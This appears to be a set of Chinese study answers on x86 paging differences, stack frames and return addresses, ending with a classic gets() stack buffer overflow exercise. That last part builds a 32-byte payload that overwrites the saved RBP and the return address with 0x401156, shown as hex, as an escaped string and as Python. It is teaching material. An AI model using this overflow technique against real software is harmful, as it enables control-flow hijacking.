32 位需要 1 个页目录 + 256 张页表，约 1MB；
64 位需要 PML4、PDPT、PD 各 1 张 + 512 张页表，约 2MB。
固定开销方面，32 位两级页表至少 8KB，64 位四级页表至少 16KB。

五、物理地址宽度
32 位：非 PAE 为 32 位物理地址，最大 4GB；PAE 为 36 位，最大 64GB。
64 位：通常为 40 至 52 位，最大可达 1TB 至 4PB，具体取决于 CPU 实现。

六、页表遍历与 TLB
32 位：TLB 未命中时需 2 次页表访问（PAE 为 3 次）；没有 PCID，进程切换写 CR3
时通常要刷新 TLB。
64 位：TLB 未命中时需 4 次页表访问（五级为 5 次）；支持 PCID/ASID，切换地址
空间时可以按标签保留 TLB 表项，避免全量刷新；TLB 容量通常也更大。

七、大页支持
32 位：支持 4MB 大页（PSE）；PAE 模式下支持 2MB 大页。
64 位：支持 2MB 和 1GB 大页，可显著降低大内存应用的 TLB 压力。

八、内核内存管理
32 位：内核虚拟空间只有 1GB，物理内存超过约 896MB 的部分属于高端内存
（highmem），内核不能直接访问，必须通过 kmap/kunmap 临时映射；vmalloc 空间
通常只有几百 MB，容易碎片化。
64 位：没有高端内存概念，内核直接把全部物理内存映射到内核地址空间（直接映射），
访问任何物理页都不需要 kmap；vmalloc 空间可达 TB 级。

九、安全与保护特性
32 位：NX 位仅在 PAE 模式下支持；一般没有 SMEP、SMAP、保护键；ASLR 熵较小。
64 位：NX 位标准支持；支持 SMEP、SMAP、PKU/PKS；ASLR 熵更大；KPTI 配合 PCID
可降低页表隔离的性能开销。

十、兼容性
64 位系统可以通过兼容模式运行 32 位程序，但该进程的虚拟地址仍限制在 4GB
（通常 2GB 或 3GB 用户空间）；在 x86-64 上硬件仍使用四级页表，只是地址落在低 4GB。
32 位系统不能运行 64 位程序。
# 阶段三
3.1
一、栈的增长方向
x86/x86-64 的栈从高地址向低地址增长。push 先把 RSP 减 8 再写入，pop 先读出再
把 RSP 加 8；call 把返回地址压栈并减 RSP，ret 从栈顶弹出返回地址并加 RSP；
函数用 sub rsp, N 为局部变量分配空间，用 add rsp, N 释放。

二、栈帧
栈帧（活动记录）是函数每次被调用时在栈上分配的一块连续区域，包含：函数参数、
返回地址、保存的 RBP、局部变量、保存的 callee-saved 寄存器、临时空间和对齐填充。
作用：保存调用现场和返回信息；为局部变量提供独立存储；使每次调用（包括递归）
互不干扰；支持调试回溯和异常栈展开。

三、RBP 与 RSP 的作用
RSP 是栈顶指针，始终指向当前栈顶（最低地址），随 push/pop/call/ret 和 sub/add rsp
动态变化，负责栈空间的分配与释放。
RBP 是帧基址指针，在函数序言中通过 push rbp; mov rbp, rsp 建立，函数执行期间
保持不变，作为访问栈帧的锚点：局部变量在 [rbp-8]、[rbp-16]……，保存的 RBP 在
[rbp]，返回地址在 [rbp+8]，栈上参数在 [rbp+16] 起。

四、返回地址
call 指令执行时，CPU 把下一条指令的地址（返回地址）压入栈顶，然后跳转到被调函数。
进入被调函数后，该地址位于 [rsp]；执行 push rbp 后，它位于 [rbp+8]，即“保存的
RBP”上面一格。函数返回时 ret 从 [rsp] 弹出 8 字节送入 RIP，程序就回到 call 的
下一条指令继续执行。

3.2
gets 为什么危险、漏洞名称
gets 没有长度参数，不检查目标缓冲区大小，会一直读到换行符为止。输入超过 16 字节
就会覆盖保存的 RBP 和返回地址，函数 ret 时跳转到攻击者指定的地址，控制流被劫持。
这种漏洞称为栈缓冲区溢出（Stack Buffer Overflow），也叫栈溢出、stack smashing，
属于缓冲区溢出的一种。正确写法是 fgets(password, sizeof(password), stdin)。

payload 结构（64 位、小端序，总长 32 字节）
偏移 0  ~ 15：16 字节填充，填满 password[16]，例如 'A'（0x41）
偏移 16 ~ 23：8 字节填充，覆盖保存的 RBP，例如 'B'（0x42）
偏移 24 ~ 31：返回地址 0x0000000000401156 的小端表示：
              56 11 40 00 00 00 00 00

十六进制：
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
42 42 42 42 42 42 42 42
56 11 40 00 00 00 00 00

ASCII + 转义：
AAAAAAAAAAAAAAAABBBBBBBB\x56\x11\x40\x00\x00\x00\x00\x00

Python 生成：
payload = b'A'*16 + b'B'*8 + (0x401156).to_bytes(8, 'little')

NUL 字节：0x401156 的高 5 字节是 0x00，终端无法键入，但可通过管道或文件送入；若只能输入可打印字符，可以只覆盖返回地址的低 2 字节（前提是原返回地址本来就在 0x4011xx 段），此时 payload 为 16 + 8 + 2 = 26 字节。
换行符：gets 遇到 0x0A 就停止，payload 里不能出现换行；同时本题假定关闭了 PIE/ASLR、栈保护和栈对齐填充，否则需要额外的地址泄露或栈调整。